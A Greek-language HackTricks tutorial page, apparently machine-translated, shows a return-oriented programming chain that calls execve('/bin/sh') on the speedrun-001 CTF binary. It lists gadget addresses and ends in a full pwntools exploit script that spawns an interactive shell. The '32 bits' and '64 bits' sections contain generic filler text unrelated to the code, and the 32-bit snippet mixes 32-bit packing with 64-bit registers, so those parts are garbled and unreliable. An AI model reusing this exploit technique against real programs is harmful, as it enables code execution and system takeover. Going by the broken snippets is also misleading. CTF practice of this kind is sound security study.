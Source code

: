 # ROP - κλήση sys_execve

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF**, ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

Για να προετοιμάσουμε την κλήση για το **syscall** απαιτείται η παρακάτω διαμόρφωση:

* `rax: 59 Καθορίζει το sys_execve`
* `rdi: δείκτης στο "/bin/sh" καθορίζει το αρχείο που θα εκτελεστεί`
* `rsi: 0 καθορίζει ότι δεν περνιούνται παράμετροι`
* `rdx: 0 καθορίζει ότι δεν περνιούνται μεταβλητές περιβάλλοντος`

Ουσιαστικά, απαιτείται να γράψουμε το string `/bin/sh` κάπου και στη συνέχεια να εκτελέσουμε το `syscall` (λαμβάνοντας υπόψη το padding που απαιτείται για τον έλεγχο του stack).

## Έλεγχος των καταχωρητών

Ας ξεκινήσουμε βρίσκοντας **πώς να ελέγξουμε αυτούς τους καταχωρητές**:
```c
ROPgadget --binary speedrun-001 | grep -E "pop (rdi|rsi|rdx\rax) ; ret"
0x0000000000415664 : pop rax ; ret
0x0000000000400686 : pop rdi ; ret
0x00000000004101f3 : pop rsi ; ret
0x00000000004498b5 : pop rdx ; ret
```
Με αυτές τις διευθύνσεις είναι δυνατόν να **γραφεί το περιεχόμενο στο stack και να φορτωθεί στους καταχωρητές**.

## Γράψτε συμβολοσειρά

### Εγγράψιμη μνήμη

Πρώτα πρέπει να βρείτε ένα εγγράψιμο μέρος στη μνήμη
```bash
gef> vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x00000000004b6000 0x0000000000000000 r-x /home/kali/git/nightmare/modules/07-bof_static/dcquals19_speedrun1/speedrun-001
0x00000000006b6000 0x00000000006bc000 0x00000000000b6000 rw- /home/kali/git/nightmare/modules/07-bof_static/dcquals19_speedrun1/speedrun-001
0x00000000006bc000 0x00000000006e0000 0x0000000000000000 rw- [heap]
```
### Εγγραφή Συμβολοσειράς

Στη συνέχεια, πρέπει να βρείτε έναν τρόπο να εγγράψετε αυθαίρετο περιεχόμενο σε αυτήν τη διεύθυνση.
```python
ROPgadget --binary speedrun-001 | grep " : mov qword ptr \["
mov qword ptr [rax], rdx ; ret #Write in the rax address the content of rdx
```
#### 32 bits

Οι επιθέσεις ROP (Return-Oriented Programming) είναι μια τεχνική εκμετάλλευσης που χρησιμοποιείται για να εκτελέσει κώδικα σε ένα πρόγραμμα, ανακατευθύνοντας τη ροή εκτέλεσης σε υπάρχοντες κώδικες (gadgets). Στην περίπτωση των 32-bit συστημάτων, οι διευθύνσεις μνήμης είναι 4-byte (32-bit) και οι διευθύνσεις επιστροφής (return addresses) αποθηκεύονται στη στοίβα (stack).

Για να εκτελέσουμε μια επίθεση ROP, πρέπει να βρούμε κατάλληλους gadgets που να περιέχουν τον κώδικα που θέλουμε να εκτελέσουμε. Οι gadgets αυτοί αποτελούνται από ακολουθίες εντολών που τελειώνουν με μια εντολή `ret` (return). Κατά την εκτέλεση της επίθεσης, αντικαθιστούμε τις διευθύνσεις επιστροφής στη στοίβα με τις διευθύνσεις των gadgets που θέλουμε να εκτελέσουμε.

Ένας τρόπος για να εκτελέσουμε κώδικα με τη χρήση της τεχνικής ROP είναι να χρησιμοποιήσουμε τη συνάρτηση `execv()`. Η `execv()` είναι μια συνάρτηση του συστήματος που εκτελεί ένα πρόγραμμα από ένα αρχείο. Για να εκτελέσουμε τη συνάρτηση `execv()` με τη χρήση της τεχνικής ROP, πρέπει να βρούμε τη διεύθυνση της στον κώδικα του προγράμματος και να την αντικαταστήσουμε στη στοίβα.

Αφού έχουμε εντοπίσει τη διεύθυνση της συνάρτησης `execv()` στον κώδικα, πρέπει να βρούμε τις απαιτούμενες παραμέτρους για την εκτέλεση της. Οι παράμετροι αυτές πρέπει να αποθηκευτούν στη στοίβα με τη σωστή σειρά, πριν από την εκτέλεση της συνάρτησης.

Με τη χρήση της τεχνικής ROP και της συνάρτησης `execv()`, μπορούμε να εκτελέσουμε κώδικα από ένα αρχείο σε ένα πρόγραμμα, εκμεταλλευόμενοι τις ευπάθειες του συστήματος.
```python
'''
Lets write "/bin/sh" to 0x6b6000

pop rdx, 0x2f62696e2f736800
pop rax, 0x6b6000
mov qword ptr [rax], rdx
'''

rop += popRdx           # place value into EAX
rop += "/bin"           # 4 bytes at a time
rop += popRax           # place value into edx
rop += p32(0x6b6000)    # Writable memory
rop += writeGadget   #Address to: mov qword ptr [rax], rdx

rop += popRdx
rop += "//sh"
rop += popRax
rop += p32(0x6b6000 + 4)
rop += writeGadget
```
#### 64 bits

Τα 64 bits

Τα 64 bits αναφέρονται στην αρχιτεκτονική ενός συστήματος υπολογιστή που χρησιμοποιεί 64-bit εγγραφές για την αναπαράσταση δεδομένων και εντολών. Αυτό σημαίνει ότι οι εγγραφές μπορούν να αποθηκεύσουν μεγαλύτερες τιμές και να υποστηρίξουν περισσότερη μνήμη από τα 32-bit συστήματα.

Στον χώρο του hacking, η αντίληψη της αρχιτεκτονικής 64 bits είναι σημαντική καθώς επηρεάζει την εκτέλεση επιθέσεων και την εκμετάλλευση ευπαθειών σε συστήματα Linux. Οι επιθέσεις που αξιοποιούν την αρχιτεκτονική 64 bits απαιτούν τη χρήση τεχνικών όπως η ROP (Return-Oriented Programming) και η ανάκτηση κώδικα (code reuse) για να εκτελέσουν κακόβουλο κώδικα σε ένα σύστημα.

Για να εκμεταλλευτείτε μια ευπάθεια σε ένα σύστημα Linux με αρχιτεκτονική 64 bits, θα πρέπει να κατανοήσετε την ανατροπή της εκτέλεσης (execution hijacking), την ανάκτηση κώδικα (code reuse) και τη χρήση της ROP (Return-Oriented Programming) για να εκτελέσετε κακόβουλο κώδικα. Αυτές οι τεχνικές επιτρέπουν στον επιτιθέμενο να εκμεταλλευτεί τις ευπαθείς συνθήκες του συστήματος και να αποκτήσει ανεξέλεγκτη πρόσβαση σε αυτό.
```python
'''
Lets write "/bin/sh" to 0x6b6000

pop rdx, 0x2f62696e2f736800
pop rax, 0x6b6000
mov qword ptr [rax], rdx
'''
rop = ''
rop += popRdx
rop += "/bin/sh\x00" # The string "/bin/sh" in hex with a null byte at the end
rop += popRax
rop += p64(0x6b6000) # Writable memory
rop += writeGadget #Address to: mov qword ptr [rax], rdx
```
## Παράδειγμα

```c
#include <stdio.h>
#include <unistd.h>

int main() {
    char *args[] = {"/bin/sh", NULL};
    execv(args[0], args);
    return 0;
}
```

Στο παραπάνω παράδειγμα, έχουμε ένα απλό πρόγραμμα C που εκτελεί το `/bin/sh` shell. Η συνάρτηση `execv` χρησιμοποιείται για να εκτελέσει το shell με τη χρήση των ορισμάτων που περνάμε σε αυτήν. Στην περίπτωση αυτή, το πρόγραμμα εκτελεί το `/bin/sh` χωρίς κανένα επιπλέον όρισμα.
```python
from pwn import *

target = process('./speedrun-001')
#gdb.attach(target, gdbscript = 'b *0x400bad')

# Establish our ROP Gadgets
popRax = p64(0x415664)
popRdi = p64(0x400686)
popRsi = p64(0x4101f3)
popRdx = p64(0x4498b5)

# 0x000000000048d251 : mov qword ptr [rax], rdx ; ret
writeGadget = p64(0x48d251)

# Our syscall gadget
syscall = p64(0x40129c)

'''
Here is the assembly equivalent for these blocks
write "/bin/sh" to 0x6b6000

pop rdx, 0x2f62696e2f736800
pop rax, 0x6b6000
mov qword ptr [rax], rdx
'''
rop = ''
rop += popRdx
rop += "/bin/sh\x00" # The string "/bin/sh" in hex with a null byte at the end
rop += popRax
rop += p64(0x6b6000)
rop += writeGadget

'''
Prep the four registers with their arguments, and make the syscall

pop rax, 0x3b
pop rdi, 0x6b6000
pop rsi, 0x0
pop rdx, 0x0

syscall
'''

rop += popRax
rop += p64(0x3b)

rop += popRdi
rop += p64(0x6b6000)

rop += popRsi
rop += p64(0)
rop += popRdx
rop += p64(0)

rop += syscall


# Add the padding to the saved return address
payload = "0"*0x408 + rop

# Send the payload, drop to an interactive shell to use our new shell
target.sendline(payload)

target.interactive()
```
## Αναφορές

* [https://guyinatuxedo.github.io/07-bof\_static/dcquals19\_speedrun1/index.html](https://guyinatuxedo.github.io/07-bof\_static/dcquals19\_speedrun1/index.html)

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
